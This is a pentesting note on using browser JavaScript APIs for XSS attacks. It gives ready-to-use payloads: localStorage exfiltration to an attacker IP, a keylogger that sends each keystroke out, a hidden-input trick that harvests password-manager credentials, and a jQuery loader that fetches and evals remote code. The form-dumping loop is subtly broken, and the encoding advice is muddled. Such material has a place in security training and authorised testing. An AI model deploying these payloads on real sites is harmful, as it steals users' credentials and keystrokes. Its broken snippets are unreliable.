 ```yaml
---
title: JavaScript for hackers
tags:
  - web-app
  - pentesting
  - javascript
---
```


## Useful JavaScript APIs

Notes on some useful JavaScript APIs to interact with the browser maliciously.

### [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)

Represents the window the entire document (the HTML response from the server) lives. This gives us access to the URL via the _location_ property and _localStorage_ which may contain secrets.

Treat Window as global, any properties set here or any methods we have access can be used in the global context, like `alert()`. `alert()`is one of the primary methods we can use to prove that a [XSS vulnerability](cross-site-scripting.md) exists in an application.

#### Exposing storage

Browsers cache important secrets in the `Window` namespace of a user's browsing session. With XSS, we can exfiltrate this data by targeting the [`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) and [`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) objects in the `Window` namespace:

```javascript
fetch("http://ATTACKER_IP_ADDRESS/exfil?data=" + encodeURIComponent(JSON.stringify(localStorage)))
```

### [Document](https://developer.mozilla.org/en-US/docs/Web/API/Document)

A powerful API that allows us to interact with the document object model (DOM) of the web page we're attacking. The DOM provides us with access to all text inputs, usernames, passwords, cookies, etc. as well as all keypress events.

#### Dumping all input forms

A useful method in the `Document` namespace is [`getElementsByTagName()`](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName). For example, let's dump the contents of all forms in the document that are tagged as `input`:

```javascript
let inputForms = document.getElementsByTagName("input")

for (let inputForm of inputForms) {
  console.log(input.value)
}
```

How do we know what DOM HTML tags are interesting? The entire HTML DOM spec is actually provided [here](https://html.spec.whatwg.org/multipage/).

#### Logging all keystrokes

Another fun technique to disclose information from a victim using the `Document` namespace is key logging. Whenever a [`keydown`](https://developer.mozilla.org/en-US/docs/Web/API/Element/keydown_event) event occurs, we can execute some JavaScript to retrieve the keys pressed by the victim:

```javascript
function keyLog(event) {
  console.log(event.key)
}

document.addEventListener("keydown", keyLog)
```

More information about the `addEventListener()` API can be found [here](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener).

Let's notice something about the above code - it only logs the key presses to the console, not super useful for an attacker unless I can somehow view the victim's console! Instead, we need to exfiltrate this data.

Using the [`Fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) API, we can coerce the victim into making a web request to a server we own. The result of the `fetch` action doesn't matter either because `fetch` just returns a [`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise). This means we can avoid crashing our script when the `fetch` action fails. Now, when we log a keystroke from the user, we can append the keystroke to a web request targeted at a server we host, allowing us to see the victim's keystrokes:

```javascript
function keyLog(event) {
  fetch("http://<WEB_SERVER_IP_ADDRESS>/k?key=" + event.key)
}

document.addEventListener("keydown", keyLog)
```

#### Dumping credentials from password managers

Password managers are great; you should definitely be using one! But this particular script attacks password managers into autofilling HTML DOM `input` objects that look like username and password prompts.

Using this XSS payload, we modify the document, adding input forms for a username and a password, hide them with an opacity of 0, and exfiltrate the username and password values after waiting 5 seconds for the password manager to input data into the new forms:

```javascript
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input")
u.type = "text"
u.style.position = "fixed"
u.style.opacity = "0"
var p = document.createElement("input")
p.type = "password"
p.style.position = "fixed"
p.style.opacity = "0"
body.append(u)
body.append(p)
setTimeout(function () {
  fetch("http://ATTACKER_IP_ADDRESS/k?u=" + u.value + "&p=" + p.value)
}, 5000)
```

### [jQuery](https://en.wikipedia.org/wiki/JQuery)

#### Using jQuery to load remote scripts

Probably not super useful is Cross-Origin protections are an issue, however, if a server provides clients (browsers) with jQuery as a resource, we can use the [`getScript()`](https://api.jquery.com/jquery.getscript/) method to load a script from an arbitrary location, either locally or with a remote URI, and execute a callback function when the script is loaded successfully. Here's an example:

```javascript
jQuery.getScript(
  "http://ATTACKER_IP_ADDRESS/dump-password.js",
  function (script, textStatus, jqXHR) {
    eval(script)
  },
)
```

We can use great functions like [`atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob), [`btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa), and [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) to bypass any encoding issues upon delivery. It's likely you'll need to convert the result of the `getScript()` operation to ASCII using `btoa()` to avoid runtime exceptions. The code you're injecting into probably won't handle the return value of `getScript()` well - it returns a callback object.

